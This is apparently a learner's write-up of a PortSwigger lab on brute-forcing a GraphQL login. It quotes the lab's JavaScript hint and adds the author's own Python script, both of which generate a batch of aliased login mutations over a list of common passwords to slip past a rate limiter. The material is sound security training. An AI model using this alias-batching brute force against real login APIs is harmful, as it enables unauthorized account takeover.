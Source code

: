 
----

### Lab description

The user login mechanism for this lab is powered by a GraphQL API. The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.

To solve the lab, brute force the login mechanism to sign in as `carlos`. Use the list of [authentication lab passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) as your password source.

We recommend that you install the InQL extension before attempting this lab. InQL makes it easier to modify GraphQL queries in Repeater.

For more information on using InQL, see [Working with GraphQL in Burp Suite](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/working-with-graphql).

#### Lab Hint

This lab requires you to craft a large request that uses aliases to send multiple login attempts at the same time. As this request could be time-consuming to create manually, we recommend you use a script to build the request.

The below example JavaScript builds a list of aliases corresponding to our list of authentication lab passwords and copies the request to your clipboard. To run this script:

1. Open the lab in Burp's browser.
2. Right-click the page and select **Inspect**.
3. Select the **Console** tab.
4. Paste the script and press Enter.

You can then use the generated aliases when crafting your request in Repeater.

``copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>` bruteforce$index:login(input:{password: "$password", username: "carlos"}) { token success } `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");``


### Lab solution

- if you try a lot of request you you got caught by the rate limit :) 

![](/static/img/Pasted_image_20230703212428.png)

- We can use aliases graphQL to bypass this filter
	- The login request
	![](/static/img/Pasted_image_20230703212552.png)

- We can use the same inQL extension to create many aliases as follows
![](/static/img/Pasted_image_20230703214238.png)

i made a simple python script to generate the same content of the lab's hint

```python

import os

import pyperclip

# python3 -m pip install pyperclip --user

passwords = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]

  

query = []

  

for i, password in enumerate(passwords):

query.append(f'bruteforce{i}: login(input: {{ password: "{password}", username: "carlos" }}) {{\n token\n success\n}}')

  

query_str = '\n'.join(query)

pyperclip.copy(query_str) # copies query string to clipboard

  

print("The query has been copied to your clipboard.")


```

![](/static/img/Pasted_image_20230703214432.png)

![](/static/img/Pasted_image_20230703214456.png)
